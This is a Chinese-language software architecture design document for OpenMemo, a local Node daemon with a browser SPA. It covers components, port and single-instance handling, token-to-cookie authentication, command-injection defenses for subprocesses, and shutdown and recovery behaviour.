



## TL;DR（≤ 25 行，Manager 只读这里）

- **单进程 daemon（Node+TS）+ 浏览器 SPA + 受管子进程**。daemon 内部按 8 个模块切分（http / db / jobs / pipeline / adapters / runtime / downloader / subprocess），**`SubprocessRunner` 是全项目唯一允许 `spawn` 的出口**——这是命令注入防线的架构强制点，不是编码规范建议。
- **生命周期定案**：固定默认端口 **17650**（提议，待 Manager 拍板），冲突时在 17650–17669 扫描；**端口绑定本身即单实例锁**（原子、进程死后 OS 自动释放），`runtime.json`(0600) 仅作元数据 sidecar。token 通过 **URL fragment**（`/#t=…`，不进日志/不进 Referer；**订正**：写成裸 fragment 而非 `/#/auth?t=`，因为前端用 History 路由，fragment 不参与路由，见 D-05 §1.2）交给浏览器 → 立刻换成 `HttpOnly` cookie（SSE/WS/`<audio src>` 都无法带 Authorization header，这是必须换 cookie 的**技术原因**）→ 配 `Host`/`Origin` 双校验防 **DNS rebinding**。
- **API 三通道分层**：`/api/**` REST（CRUD，短请求）· `/api/events` **全局唯一 SSE**（ADR-004）· `/ws/**` WebSocket（仅实时录音；浏览器 WebGPU worker 已按 ADR-006 决策 3 降为实验特性）· 外加**第四条 `/media/**` 字节流通道**（Range 请求，不走 JSON）。硬约束：HTTP/1.1 每 origin 6 连接，预算必须显式管理（1 SSE + 2 媒体 + 3 REST）。**具体 endpoint 由 T-013 (`packages/shared`) 定义，本文只定分层与前缀。**
- **【2026-08-02 订正批次】** 本文 §3 已按 `packages/shared` 的落地实现对齐**四处**：① 前缀 `/api`（原 `/api/v1`）；② SSE 帧用具名 `event: <type>`（原提议 `event: message`）；③ 重放缓冲 256（原 2000）；④ **SSE 信封改为扁平**（原嵌套 `payload`，ADR-010 决策 2）。错误信封改用实现版本，`remediation` 字段已由 ADR-007 决策 2 批准补入。每处订正均在正文标注了原设计与订正原因（ADR-007 决策 6）。
- **任务队列核心技巧**：转写按 **VAD chunk 分批 + 每 chunk 落库**，于是"抢占点 = 续跑点 = 进度点"三合一。崩溃后不重跑已完成 chunk。并发按**资源 lane 信号量**（`asr`/`llm` 各 1，不可超卖显存）。job/step 双表持久化 + lease 心跳 + `plan_version` 防跨版本续跑错位。
- **四个适配层**（可替换性是 ADR-002 的硬要求）：ASR（whisper.cpp / sherpa-onnx / **浏览器 WebGPU**）、LLM（**只需 2 个实现**：OpenAI-compatible 覆盖云+Ollama+LM Studio+llama-server，Anthropic 原生）、思维导图渲染（mind-elixir 编辑 / markmap 只读）、媒体源（yt-dlp / 直链 / RSS / 本地）。**关掉 `YtDlpSource` 产品仍能跑**——这就是 ADR-002 要的低成本回滚。
- **命令注入防护**（用户粘贴的 URL 进 yt-dlp 命令行）：`shell:false` 只挡 shell 注入，**挡不住参数注入**。七层防护：URL 白名单解析 → 拒绝 `-` 开头 → `--` 终止符 → `--ignore-config` 关掉配置文件读取面 → 固定 `--paths`/`-o` 常量模板 → 二进制 allowlist（绝对路径，不查 PATH，**禁 .bat/.cmd**）→ 最小 env + 超时 + 进程组 kill。**规则：任何用户可控字符串只能是独立 argv 元素，绝不拼进另一个参数内部。**
- **降级链**：GPU 后端 CUDA→Vulkan→CPU；ASR whisper.cpp→sherpa-onnx→浏览器 WebGPU；LLM 云→本地 llama→**无 LLM 时用启发式大纲**（F4 必须永远产出点东西）；yt-dlp 失败→引导用户走 F2 拖文件。每条降级都带熔断（连续 3 次崩溃本会话禁用）。
- **关键取舍**：把 L0 WebGPU 做成"浏览器注册为 ASR worker"，让**零安装体验**和**统一任务队列**同时成立，代价是该任务与浏览器标签页生命周期绑定（关页 → 任务自动 `paused`，不丢进度）。
- **已核实的两处订正**：① **npm 包名是 `mind-elixir`（v5.14.0），不是 ADR-002/R-03 写的 `mind-elixir-core`**（后者是 GitHub 仓库名，npm 上 404）；② markmap 的 `transform()` 只吃 Markdown 字符串，但 `Markmap.create()` 吃 `IPureNode` 对象 → **我们直接生成 `IPureNode`，绕开"doc→Markdown→再解析"的两次有损转换**（§6.3）。
- **未验证/存疑**：① 端口 17650 未做占用调研（仅确认在三大 OS 的临时端口段之外）；② llama-server / Ollama 的 OpenAI 兼容端点为**文档级**，未实测；③ 浏览器 WebGPU 转写的实际可用性未验证（ADR-006 决策 3 已把它降为实验特性，v1 不实现）；④ 本文所有时序图**在写作当时（2026-08-02）**为设计意图；此后 T-011~T-152 已按此实现并跑通（`apps/daemon/src` 10 个子目录、`apps/web/src` 15 个 feature，端到端脚本 `apps/daemon/scripts/e2e-f3.mjs` / `e2e-cancel.mjs`、`packages/downloader/scripts/verify-{offline,download,unpack}.mjs`），**与本文的偏差见 D-07/D-08**。**此前写着"无任何代码跑通"**。
- **对其他 agent 的影响**：T-011 请按 §1.2 的 daemon 目录切分建骨架，并注意 `mind-elixir` 包名订正与 **`better-sqlite3` v13 要求 `node >= 22`**（已核实）；T-012 的 probe/后端安装器请实现 §6.1 的 `AsrEngine.capabilities()` 与 §7.3 的熔断契约；T-013 请认领 §3 的前缀分配、§3.5 的错误信封（**`ApiErrorBody`，不是 RFC 9457** —— **此前这里写着 RFC 9457**，与 §3.5 的 2026-08-02 订正冲突，以 §3.5 为准）、§3.3 的 SSE 信封格式，并注意 **API 对外用 ULID `uid`，不用整数 PK**（见 D-02 §1.1）。

---

# 详细内容

> **诚实标记**：`[已定]` = ADR 已裁决，本文只是落地；`[设计]` = 我的设计决策，未跑通任何代码；
> `[待核实]` = 需要实证但本次未取得；`UNKNOWN` = 查不到，不编。
> **本文档零代码交付**（BOARD 文件所有权表：`architect` 只写 `docs/design/D-01*`、`D-02*`）。
> 文中出现的 TS 接口片段是**设计示意**，正式类型定义归属见各处标注。

---

## §1 组件图

### 1.1 全局视图

```
╔══════════════════════════════════════════════════════════════════════════════════╗
║  用户的浏览器（Chrome / Edge / Safari / Firefox）                                  ║
║  ┌────────────────────────────────────────────────────────────────────────────┐  ║
║  │  apps/web  —— React SPA（唯一 UI）                                          │  ║
║  │  ┌──────────┬──────────┬──────────┬───────────┬──────────┬───────────────┐ │  ║
║  │  │ 捕获/导入 │ 笔记+时间轴│ 思维导图  │ 模型管理   │ 运行时管理│ 设置          │ │  ║
║  │  │ (F1/F2/F3)│ (F5)     │ (F4)     │ (要求 2.2)│(要求 2.1)│               │ │  ║
║  │  └──────────┴──────────┴────┬─────┴───────────┴──────────┴───────────────┘ │  ║
║  │  ┌──────────────────────────┴──────────────────────────────────────────┐   │  ║
║  │  │ 渲染适配层  mind-elixir(编辑) │ markmap(只读)   ← 消费同一 MindMapDoc │   │  ║
║  │  ├─────────────────────────────────────────────────────────────────────┤   │  ║
║  │  │ 传输层  restClient │ eventBus(SSE) │ wsRecorder │ mediaUrl(cookie)   │   │  ║
║  │  ├─────────────────────────────────────────────────────────────────────┤   │  ║
║  │  │ L0 兜底：Web Worker + transformers.js(WebGPU)  ← 注册为远端 ASR worker│   │  ║
║  │  └─────────────────────────────────────────────────────────────────────┘   │  ║
║  └────────────────────────────────────────────────────────────────────────────┘  ║
╚═══════════════════════════════════╤══════════════════════════════════════════════╝
                                    │  HTTP/1.1 · 127.0.0.1:17650 · 严禁 0.0.0.0
        ┌───────────────────────────┼───────────────────────────┬─────────────────┐
        │ REST /api/**           │ SSE /api/events (唯一)  │ WS /ws/**       │  Bytes /media/**
        ▼                           ▼                           ▼                 ▼
╔══════════════════════════════════════════════════════════════════════════════════╗
║  apps/daemon —— 本地 daemon（Node.js + TypeScript，单进程）                        ║
║                                                                                  ║
║  ┌─── http ────────────────────────────────────────────────────────────────────┐ ║
║  │ server(bind 127.0.0.1) → guard(Host/Origin/CSRF) → auth(Bearer|Cookie)      │ ║
║  │   ├ rest/     资源路由，薄控制器，只做校验+编排                                │ ║
║  │   ├ sse/      单流广播器 + 环形重放缓冲(Last-Event-ID)                        │ ║
║  │   ├ ws/       /ws/recorder（实时录音）· /ws/asr-worker（浏览器 WebGPU 反向worker）│ ║
║  │   ├ media/    Range 字节流（音视频回放、波形、缩略图、导出下载）                  │ ║
║  │   └ static/   SPA 产物（同 origin，规避 CORS）                                │ ║
║  └───────────────────────────┬─────────────────────────────────────────────────┘ ║
║                              │                                                   ║
║  ┌─── core ─────────────────┴──────────────────────────────────────────────────┐ ║
║  │ ┌──────────┐ ┌───────────────┐ ┌──────────┐ ┌──────────┐ ┌────────────────┐ │ ║
║  │ │ eventBus │ │ jobs          │ │ settings │ │ search   │ │ notes/mindmap  │ │ ║
║  │ │ (内部总线)│ │ 调度器+lane   │ │ +secrets │ │ FTS5+vec │ │ 领域服务        │ │ ║
║  │ └────┬─────┘ │ +lease+持久化 │ └──────────┘ └────┬─────┘ └───────┬────────┘ │ ║
║  │      │       └───────┬───────┘                   │               │          │ ║
║  │      └───────────────┴──────────┬────────────────┴───────────────┘          │ ║
║  │                                 ▼                                            │ ║
║  │ ┌────────────────────── db (better-sqlite3) ─────────────────────────────┐  │ ║
║  │ │ migrations · repositories · WAL · 扩展加载(libsimple / sqlite-vec)       │  │ ║
║  │ └────────────────────────────────────────────────────────────────────────┘  │ ║
║  └─────────────────────────────────────────────────────────────────────────────┘ ║
║                                                                                  ║
║  ┌─── packages（可独立测试，不依赖 http 层）───────────────────────────────────────┐ ║
║  │ pipeline/   步骤实现：fetch→demux→vad→asr→diarize→structure→index            │ ║
║  │ mindmap/    库无关 MindMapDoc 模型 + 导入导出转换器（md/opml/freemind）        │ ║
║  │ runtime/    硬件探测 · GPU 后端包安装 · 自检（T-012 独占）                      │ ║
║  │ downloader/ 统一下载器：manifest+sha256+Range 续传+镜像切换（T-013 独占）        │ ║
║  │ shared/     API schema + 数据模型 + TS 类型（T-013 独占，daemon 与 web 共用）    │ ║
║  └─────────────────────────────────────────────────────────────────────────────┘ ║
║                                                                                  ║
║  ┌─── subprocess ──────────────────────────────────────────────────────────────┐ ║
║  │  SubprocessRunner  ★ 全项目唯一允许调用 child_process.spawn 的模块 ★          │ ║
║  │  职责：二进制 allowlist（绝对路径）· argv 构造与校验 · 最小 env · 超时           │ ║
║  │        · 进程组管理 · stdout/stderr 上限与脱敏 · 退出码/信号归一化              │ ║
║  └───────────────────────────┬─────────────────────────────────────────────────┘ ║
╚══════════════════════════════╪═══════════════════════════════════════════════════╝
                               │ spawn(bin, argv[], {shell:false})  —— 崩溃隔离
   ┌───────────┬───────────┬───┴────────┬─────────────┬──────────────┬────────────┐
   ▼           ▼           ▼            ▼             ▼              ▼            ▼
┌────────┐┌─────────┐┌────────────┐┌───────────┐┌────────────┐┌───────────┐┌────────┐
│ yt-dlp ││ ffmpeg  ││ whisper-cli││sherpa-onnx││llama-server││ ggml probe││ 7z/tar │
│ (GPLv3)││ ffprobe ││(自建 CI)   ││ (npm 预编)││ (官方预编) ││ (自建)     ││(解压后端)│
└────────┘└─────────┘└────────────┘└───────────┘└────────────┘└───────────┘└────────┘
```

**边界说明**

| 边界 | 协议 | 谁跨过它 | 硬约束 |
|---|---|---|---|
| 浏览器 ↔ daemon | HTTP/1.1 over TCP，`127.0.0.1` | 所有 UI 操作 | 必须带 token（Bearer 或 cookie）；`Host`/`Origin` 白名单；同 origin 提供 SPA 静态资源 → **零 CORS 面** |
| daemon ↔ 子进程 | `spawn` + argv 数组 + stdio 管道 / 本地 HTTP（whisper-server） | 只有 `SubprocessRunner` | `shell:false`；子进程若监听端口必须显式 `--host 127.0.0.1`（memo.ac 的 `whisper-server` 犯过 `0.0.0.0` 的错，见 R-01 §B9）|
| daemon ↔ 磁盘 | 受管根目录 | db / media / models / backends | 所有路径经 realpath 后必须落在受管根内（§8.5）|
| daemon ↔ 外网 | HTTPS 出站 | downloader / yt-dlp / 云 LLM | 浏览器侧 CSP 禁止直连外网，**所有外网访问从 daemon 发出**，便于统一代理/日志/脱敏 |

### 1.2 daemon 目录切分（给 T-011 建骨架用）

**下面这棵树已按落地实际重写**（原设计树的偏差见树下说明）：

```
apps/daemon/src/
├── main.ts                 引导与生命周期（§2）
├── index.ts                包入口
├── bootstrap/              单实例锁 · 端口选择 · runtime.json · TLS · 打开浏览器 · 崩溃恢复扫描
├── config/                 路径解析（各 OS）· 环境变量覆盖 · 设置读写
├── http/
│   ├── server.ts           监听、连接预算、优雅关闭
│   ├── guard.ts            Host/Origin/Sec-Fetch 校验（DNS rebinding + CSRF）
│   ├── auth.ts             Bearer ↔ cookie session
│   ├── rest/               资源路由（薄）—— 含 search.ts（原设计的 search/ 落在这里）
│   ├── sse.ts              单流广播器 + 重放环（是**文件**，不是目录）
│   ├── ws.ts               WS 路由分发（是**文件**；会话实现在顶层 ws/）
│   ├── media.ts            Range 字节流（是**文件**）
│   ├── upload.ts           上传接收
│   ├── static.ts           SPA 托管（是**文件**）
│   └── respond.ts          响应封装（错误信封，见 §3.5）
├── ws/                     WS 会话实现：recorder.ts（实时录音，见 D-06 §15.1）
├── db/                     连接、repositories（迁移执行器与 DDL 在 `packages/db`，见 D-02 §7）
├── jobs/                   队列、调度器、lane 信号量、lease、job plan 注册表、worker 宿主
│                           —— 含 events.ts（原设计的 events/ 落在这里）
├── llm/                    LLM 适配装配（原设计 adapters/llm/）
├── pipeline/               转写/媒体流水线装配（原设计 adapters/asr/ + media-source/）
├── runtime/                硬件探测与后端安装的 daemon 侧装配
└── storage/                受管根目录、迁移搬迁（move.ts）、布局
```

> **此前这棵树写着 `domain/`、`search/`、`events/`、`subprocess/`、`adapters/`、`logging/` 六个目录，
> 以及 `http/{sse,ws,media,static}/` 四个子目录 —— 这 10 项都不存在**（20 项里 10 项，50%）。落地时的实际去向：
> - `http/sse`、`http/ws`、`http/media`、`http/static` 各是**一个文件**（`sse.ts` / `ws.ts` / `media.ts` / `static.ts`），不是目录；
> - `search/` 落在 `http/rest/search.ts`；
> - `events/` 落在 `jobs/events.ts`；
> - `adapters/` 拆成了 `llm/` 与 `pipeline/` 两个目录；
> - `subprocess/`（`SubprocessRunner`）按 D-06 §1 的意见移到了 **`packages/pipeline/src/subprocess/`**——spawn 的实际发生地（另见 §8.4 的订正）；
> - `domain/` 与 `logging/` **从未建立**（领域逻辑直接在 `db/` 的 repositories 与 `http/rest/` 里）。
>
> 反过来，原树**没列出**但实有的目录是 `ws/`、`llm/`、`pipeline/`、`runtime/`、`storage/`。
> 建骨架时请照上面这棵重写后的树，不要照抄本文旧版本。

> `packages/pipeline`、`packages/mindmap` 里放**纯逻辑**（无 http、无全局状态），
> 便于单测；daemon 只做装配。`packages/runtime`、`packages/downloader`、`packages/shared`
> 分别归 T-012 / T-013 独占，daemon 只消费其公开接口。

---

## §2 进程与生命周期

> 这一节决定"产品能不能用"。每个子节都给出**默认行为 + 失败分支**。

### 2.1 启动方式（三条入口，同一份逻辑）

| 入口 | 场景 | 行为 |
|---|---|---|
| **A. 双击图标**（主路径） | 普通用户 | 安装器在桌面/开始菜单/Launchpad 放一个壳：macOS 是最小 `.app`（`Contents/MacOS/openmemo` 直接是启动脚本）、Windows 是 `openmemo.exe` 或 `.lnk`、Linux 是 `.desktop`。行为 = `openmemo up --open`：若已在跑则**不再起第二个**，直接打开浏览器指向已有实例 |
| **B. CLI** | 开发者 / 排障 | `openmemo up [--port N] [--no-open] [--data-dir P]` · `down` · `status` · `open` · `logs` · `doctor` |
| **C. 开机自启** | 常驻用户，**默认关闭**，设置页开关 | macOS: `~/Library/LaunchAgents/ac.openmemo.daemon.plist`（`RunAtLoad`+`KeepAlive`）；Windows: **计划任务**（登录时触发，比 Run 注册表键更可控、可设延迟与重启策略）；Linux: `~/.config/systemd/user/openmemo.service`（`Restart=on-failure`, `RestartSec=5`）|

**`up` 的完整流程**

```
1. 解析数据目录（OPENMEMO_DATA_DIR > --data-dir > OS 默认，见 D-02 §6）
2. 尝试获取单实例（§2.3）
   ├─ 已有健康实例 → 读其 runtime.json 拿 port+token → 打开浏览器 → 进程退出 0
   └─ 无 → 继续
3. 打开/迁移数据库（§2.6 前向兼容检查 → 迁移 → WAL）
4. 崩溃恢复扫描（§2.7）
5. 绑定端口（§2.2），绑定成功 = 持锁成功
6. 生成 sessionToken（32 字节 CSPRNG）→ 写 runtime.json（0600）
7. 启动调度器（lane 池按 CPU 核数与已装后端初始化）
8. 异步：硬件探测（子进程 probe，10s 超时，结果缓存）
9. --open 时打开浏览器：http://127.0.0.1:<port>/#t=<token>
10. 就绪，日志打印 URL（供 --no-open 时用户手动复制）
```

### 2.2 端口选择与冲突处理 `[设计]`

- **默认端口 `17650`** `[设计，待 Manager 拍板]`。选择理由：不在 Linux(32768–60999)/Windows(49152–65535)/macOS(49152–65535) 的临时端口段内，不与常见开发端口（3000/5173/8000/8080/5000/7860）及本地 AI 服务（Ollama 11434、LM Studio 1234、memo.ac whisper-server 9588）冲突。**未做占用率调研**（`[待核实]`）。
- **端口必须尽量稳定**，原因不是美观而是**功能性**：浏览器的 `localStorage` / cookie / 权限授权（麦克风！）全部按 **origin**（scheme+host+port）隔离。端口一变，用户的登录态没了、**麦克风授权要重新点一遍**（直接影响 F3）、书签失效。
- **冲突处理阶梯**
  1. 尝试 `bind(127.0.0.1, 17650)`。
  2. `EADDRINUSE` → 先 `GET http://127.0.0.1:17650/api/health`：
     - 返回 `{"app":"openmemo","instanceId":…,"version":…}` → **是我们自己**，走 §2.3 的"已有实例"分支。
     - 其它响应 / 超时 / 连接被拒 → 是别人的服务，继续下一步。
  3. 在 `17651..17669` 顺序扫描，第一个绑定成功的胜出。
  4. 全部占用 → 绑 `port 0`（OS 随机），并在 CLI 与桌面通知里**大字**打印实际 URL。
  5. 无论最终端口是多少，写入 `runtime.json`；快捷方式壳每次都读 `runtime.json` 而非硬编码端口。
- **只绑 IPv4 `127.0.0.1`**；`::1` 作为可选第二监听（设置项，默认关）。**永不绑 `0.0.0.0` / `localhost`**（`localhost` 在部分系统解析到 `::` 或外部网卡）`[已定，ADR-003]`。

### 2.3 单实例锁 `[设计]`

**主锁 = 端口绑定本身。** 这是唯一原子且"进程死了自动释放"的机制——lockfile 做不到（崩溃后残留 stale lock 是经典故障）。

`runtime.json`（`0600`，随进程创建/删除）只是**元数据 sidecar**：

```jsonc
{ "schema": 1, "app": "openmemo", "version": "0.1.0",
  "pid": 12345, "instanceId": "01J…ULID", "startedAt": "…",
  "host": "127.0.0.1", "port": 17650,
  "token": "<base64url-32B>",           // 0600 保护
  "dataDir": "/home/u/.local/share/openmemo" }
```

- 判定"已有实例"必须**同时**满足：端口被占 **且** `/api/health` 返回我们的应用标识 **且** 其 `dataDir` 与本次请求的一致。
- `dataDir` 不一致 → 说明用户想跑第二个 profile → v1 **不支持**，明确报错"另一个数据目录的实例正在占用端口，请用 `--port` 指定"`[设计]`。
- 数据目录级互斥另有一道：SQLite 打开后立即取一个**长期写事务外的 flock**（`daemon.lock` + `flock(LOCK_EX|LOCK_NB)`）防止两个不同端口的实例共用同一个 DB。Windows 用 `O_EXCL` 独占句柄。

### 2.4 token 鉴权如何传给浏览器 `[设计]`（安全关键）

```
daemon 启动 → token = randomBytes(32).base64url          （每次启动重新生成）
            → 写 runtime.json (0600)
            → 打开浏览器: http://127.0.0.1:17650/#t=<token>
                                                 ▲
                                       放在 fragment，不是 query
```

**为什么放 fragment 而不是 query string**：
fragment 不会被发送到服务器（不进 access log）、不会出现在 `Referer` 头、不会被 SPA 路由框架意外上报。
（我们自己是服务器，本来也不会泄露，但**浏览器扩展、代理、崩溃报告器**读 URL 是现实风险面。）

**前端拿到后**：
1. `history.replaceState(null,'','/')` 立刻抹掉 fragment（防 URL 被截图/分享/进历史记录）。
2. `POST /api/auth/session`，`Authorization: Bearer <token>` →
   daemon 校验后 `Set-Cookie: om_sid=<新随机 sid>; HttpOnly; SameSite=Strict; Path=/; Max-Age=…`
   同时响应体返回一个 **CSRF token**（存 `sessionStorage`）。
3. 之后所有请求带 cookie；所有**非 GET** 请求额外带 `X-OpenMemo-CSRF` 头（双提交模式）。

**为什么必须换成 cookie（这是技术强制，不是偏好）**：

| 通道 | 能否带自定义 header |
|---|---|
| `fetch()` REST | ✅ 能 |
| `EventSource`（SSE） | ❌ **不能**（规范不支持自定义 header） |
| `WebSocket`（浏览器 API） | ❌ **不能**（除 `Sec-WebSocket-Protocol` 的 hack） |
| `<audio src>` / `<video src>` / `` | ❌ **不能** |

→ 把 token 塞 query 参数是常见做法但会进日志；**cookie 是唯一同时覆盖这四类的方案**。
代价是引入 CSRF 面，用 §8.2 的 Host/Origin/SameSite/双提交四重防护对冲。

**Bearer 通道保留**，供 CLI、脚本、第三方集成使用（它们不受 CSRF 影响）。

**打开浏览器的方式**：`spawn('open'|'xdg-open'|'rundll32 url.dll,FileProtocolHandler', [url], {shell:false})`。
**绝不用 `exec` 拼字符串**——URL 里有 token，进 shell 会有转义与历史记录问题（Windows 上尤其：`start` 是 cmd 内建命令）`[设计]`。
Windows 优先用 `rundll32 url.dll,FileProtocolHandler <url>` 或 `explorer.exe <url>`，避开 `cmd /c start` 的引号地狱 `[待核实：需在 Windows 上实测]`。

### 2.5 优雅退出 `[设计]`

触发源：`SIGINT`/`SIGTERM`（Unix）、控制台关闭事件（Windows）、`openmemo down`（→ `POST /api/daemon/shutdown`，需鉴权）、systemd/launchd 停止。

```
T+0    停止 accept 新连接（server.close()），但不断开已有连接
T+0    SSE 广播 {type:"daemon.shutdown", graceMs:15000} → 前端弹条幅、停止轮询
T+0    向所有运行中的 job 置 cancel_requested=1（"软停"）
       → worker 在下一个 chunk 边界 checkpoint 落库后停下，状态置 paused
T+0    向所有子进程发 SIGTERM（Windows: taskkill /T 不带 /F）
T+10s  仍存活的子进程 → SIGKILL（Windows: taskkill /T /F）
T+12s  等待所有 DB 写事务结束 → PRAGMA wal_checkpoint(TRUNCATE) → db.close()
T+13s  删除 runtime.json、释放 daemon.lock、关闭日志
T+15s  仍未退出 → process.exit(1)（硬超时，防止挂死）
```

- **进程组**：所有子进程以 `detached:false` 启动（Unix 上仍设 `process.setpgid` 语义由 Node 的 detached 控制；我们要的是"父死子也死"）。同时 daemon 在 `jobs` 表记录 `worker_pid + worker_started_at`，作为孤儿回收的凭据（§2.7）。
- **Windows 无 SIGTERM 语义**：`process.on('SIGINT')` 在 Windows 上由 Node 模拟可用；控制台关闭走 `SIGHUP`/`SIGBREAK`，且 **OS 只给约 5 秒**。→ Windows 上把宽限期压到 4s，其余逻辑一致 `[待核实]`。
- **数据安全底线**：任何时刻被 `SIGKILL`，由于 (a) WAL + `synchronous=NORMAL`，(b) 每 chunk 一个事务，(c) 大文件走临时名 + `rename` 原子替换 —— **最坏情况只丢最后一个未完成的 chunk**。

### 2.6 数据库版本前向兼容

启动时读 `PRAGMA user_version`：

| 情况 | 行为 |
|---|---|
| `user_version < 代码支持` | 备份（`VACUUM INTO backups/…`）→ 逐个迁移，每个迁移一个事务 |
| `user_version == 代码支持` | 直接用 |
| `user_version > 代码支持` | **拒绝启动**，返回明确错误："数据库由更新版本的 OpenMemo 创建（v{db} > v{app}），请升级应用或从 `backups/` 恢复。" 绝不尝试"尽力而为"地打开——那会静默损坏数据 |

细节见 D-02 §5。

### 2.7 崩溃恢复 `[设计]`

